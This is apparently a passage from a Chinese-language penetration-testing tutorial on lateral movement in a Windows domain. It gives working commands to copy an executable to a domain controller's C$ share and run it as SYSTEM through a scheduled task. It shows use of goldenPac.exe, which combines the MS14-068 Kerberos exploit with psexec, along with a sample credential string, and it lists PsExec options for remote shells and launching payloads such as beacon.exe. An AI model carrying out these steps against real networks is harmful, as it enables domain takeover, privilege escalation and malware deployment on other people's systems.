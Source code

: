 ![image-20230313124319641](https://img.gyxnb.top/img/image-20230313124319641.png)

#### 执行命令

```
dir \\dc.hack.com\c$  #注意是机器名不是IP
```

#### 建立网络连接

```
shell net use \\dc.hack.com
copy C:\users\lihua\Desktop\1.exe \\dc.hack.com\C$
shell schtasks /create /s dc.hack.com /tn test /sc onstart /tr c:\wanli.exe /ru system /f
shell schtasks /run /s dc.hack.com /i /tn "test"
```

![image-20230313125203922](https://img.gyxnb.top/img/image-20230313125203922.png)

## goldenPac.exe

此工具是`impacket`工具包里的，它是MS14-068+ psexec的组合,因此使用起来非常放方便快捷
**用法**

```
goldenPac.exe 域名/域用户名:域用户明文密码@域控完整域名

goldenPac.exe hack.com/lihua:123456.A@dc.hack.com
```



# PsExec工具远程CMD横向移动

## PsExec介绍

psexec是windows下非常好的- -款远程命令行工具。psexec的使用不需要对方主机开方3389端口，只需要对
方开启admin共享和ipc (该共享默认开启，依赖于445端口)。但是，假如目标主机开启了防火墙(防火墙禁止
445端口连接) . psexec也是不能使用的，会提示找不到网络路径。由于psexec是Windows提供的工具, 所以
杀毒软件将其列在白名单中

下载地址https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools

## PsExec使用条件

1、具有正确的凭证(内存凭证、账号密码、账号NTLM Hash)

2、能建立IPC链接(也就是需要通过smb认证的) , 且目标机器开启了共享(默认开启的) .并且目标共享中必须有admin$共享

## PsExec常用参数

```
psexec \\ip -u administrator -p admin cmd进入半交互式shell
PsExec -accepteula \\192.168.108.101 -s cmd.exe 建立交互的shell
psexec \\ip -u administrator -p admin -w c:\cmd 进入交互式shell, 且c:\是目标机器的工作目录
psexec \\ip -u administrator -p admin whoami all 执行命令
psexec \\ip -u administrator -p admin -d C:\beacon.exe执行文件
psexec \\ip -u administrator -P admin -h -d c:\1.exe UAC的用戶权限执行文件
```
